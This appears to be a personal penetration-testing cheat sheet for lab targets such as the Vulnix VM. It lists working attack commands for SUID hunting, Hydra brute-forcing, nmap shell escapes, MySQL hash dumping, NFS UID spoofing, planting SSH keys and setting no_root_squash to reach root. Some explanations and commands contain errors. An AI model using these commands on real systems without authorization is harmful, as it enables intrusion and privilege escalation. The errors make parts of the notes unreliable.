 Find all files with SUID bit

    find / -perm -u=s -type f 2>/dev/null

or

    find / -perm -4000 -type f 2>/dev/null

Explanation:

    /denotes  start from the top (root) of the file system and find every directory
    -permdenotes search for the permissions that follow
    -u=sdenotes look for files that are owned by the root user
    -typestates the type of file we are looking for
    f denotes a regular file not the directories or special files
    2 denotes to the second file descriptor of the process, i.e. stderr (standard error)
    > means redirection
    /dev/null is a special filesystem object that throws away everything written into it.


Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt

To remove all duplicates in a dictionary file

    cat filename.txt | sort | uniq > outfile.txt

Spawn bash

    python -c 'import.pty;pty.spawn("/bin/bash")'

nmap interactive

	nmap --interactive
	!bash -p
more nmap
	-sL : list targets to scan
	-pn : disable port scan(ping sweep?)
	
cool nmap scripts
	
	--script=http-enum
	--script=http-default-accounts
	--script=http-phpmyadmin-dir-traversal
	

passing parameters into nmap script example

	nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
	nmap -p 3306 100.65.136.252 --script=mysql-query --script-args='query="show tables FROM corporate_database",username=root,password=abc123'
	
	**dont forget username and pass

List of nmap scripts	
https://nmap.org/nsedoc/



WPSCAN

	wpscan --url <url>
	
WPSCAN enumerate users

	-enumerate u
	-e ap **uodate this later**
	
---- NFS ports ----

If NFS ports are open

	showmount -e <ip>
	<returns shared directories> e.g /home/vulnix

Mounting the NFS directory

		cd ~
		mkdir vulnix
		mount -t nfs <ip>:/home/vulnix ~/vulnix
		
View permissions and stuff of the new directory

		ls -ld vulnix
		<this may not show the UID and GID, showing as 'nobody'>
		<e.g drwxr-x--- 2 nobody nobody 4096 Sep  2  2012 vulnix>
		and/or
		stat vulnix
		
Mount differently if cant see UID and GID

		mount -t nfs -o vers=3 <ip>:/home/vulnix ~/vulnix
		ls -ld vulnix
		<should show the real UID and GID this time>
		<e.g mount -t nfs -o vers=3 192.168.2.4:/home/vulnix ~/vulnix >
		
Create a spoof user

		groupadd --gid 2008 vulnix_group
		useradd --uid 2008 --groups vulnix_group vulnix_user
		sudo -u vulnix_user ls -a vulnix
		<if you have permissions now, it should show the file listing in the directory>
		
Can also use nfspy, this spoofs user instead of really creating it
https://github.com/bonsaiviking/NfSpy

		nfspy -o server=192.168.2.4:/home/vulnix,nfsport=2049/tcp,rw vulnix
		or for root:
		nfspy -o server=192.168.2.4:/,nfsport=2049/tcp,rw ~/vulnix_root


SSL KEY STUFF (figure this out later) original url: https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

		root@kali:~# ls /root/.ssh/
		root@kali:~# ssh-keygen
		Generating public/private rsa key pair.
		Enter file in which to save the key (/root/.ssh/id_rsa):
		Enter passphrase (empty for no passphrase):
		Enter same passphrase again:
		Your identification has been saved in /root/.ssh/id_rsa.
		Your public key has been saved in /root/.ssh/id_rsa.pub.
		The key fingerprint is:
		SHA256:VoZMUJiHramBTJnCofq3Osa2s3JaFFJP0yct0V5KKwU root@kali
		The key's randomart image is:
		+---[RSA 2048]----+
		|..ooo.E%o        |
		|oo+o .BoO..      |
		|o+...  @o+o      |
		|..o.. + +o       |
		|. .  o .S        |
		| o  .  .         |
		| .o .            |
		|..B. .           |
		|.*+*.            |
		+----[SHA256]-----+
		root@kali:~# ls /root/.ssh/
		id_rsa  id_rsa.pub
		root@kali:~# cat /root/.ssh/id_rsa.pub
		ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali


Copy key into target's authorized keys(figure this out later too)

		root@kali:~# su vulnix
		$ cd /tmp/nfs
		$ ls -la
		total 20
		drwxr-x---  2 vulnix vulnix 4096 May 16 16:25 .
		drwxrwxrwt 15 root   root   4096 May 16 18:36 ..
		-rw-r--r--  1 vulnix vulnix  220 Apr  3  2012 .bash_logout
		-rw-r--r--  1 vulnix vulnix 3486 Apr  3  2012 .bashrc
		-rw-r--r--  1 vulnix vulnix  675 Apr  3  2012 .profile
		$ mkdir .ssh
		$ cd .ssh
		$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali > authorized_keys


Copy own key into target's authorized keys

		cp ~/.ssh/id_rsa.pub vulnix/.ssh/authorized_keys

SSH into target

		ssh vulnix@<ip>
		
** extras **

		cat /etc/exports
		/home/vulnix	*(rw,root_squash)

can add the following into /etc/exports to export the whole machine


		/		*(rw,no_root_squash)
		
find a way to restart computer or service
remount the thing
spoof root uid and gid
add new key again
ssh in as root


Link to walkthrough
https://blog.christophetd.fr/write-up-vulnix/
